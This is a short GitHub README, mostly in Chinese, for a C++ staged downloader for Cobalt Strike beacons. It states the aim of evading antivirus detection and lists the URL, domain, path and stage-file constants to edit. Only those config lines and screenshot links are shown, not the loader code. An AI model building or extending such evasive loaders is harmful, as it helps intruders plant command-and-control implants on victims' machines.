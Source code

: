 # HttpStageDownloader
cobaltstrike的http分阶段下载器 cpp版本
cobaltstrike stage downloader writed by cpp

参考视频：https://www.bilibili.com/video/BV1MA4y1Z7Uz/

cobalt strike的http beacon很容易被查杀，这里用wininet和winhttp写了个分阶段下载器。
代码里的<br>
   const WCHAR* szUrl = L"http://127.0.0.1/async/Newtab_promos";<br>
    const WCHAR* szDomain = L"127.0.0.1";<br>
    const WCHAR* szUrlPath = L"/async/Newtab_promos";<br>
    const char* szFileName = "stage.bin";<br>
自己根据profile文件进行修改.<br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/1.png) <br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/2.png) <br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/3.png) <br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/4.png) <br>
![可以正常上线，但是有黑框](https://github.com/fgfxf/HttpStageDownloader/blob/main/5.png) <br>
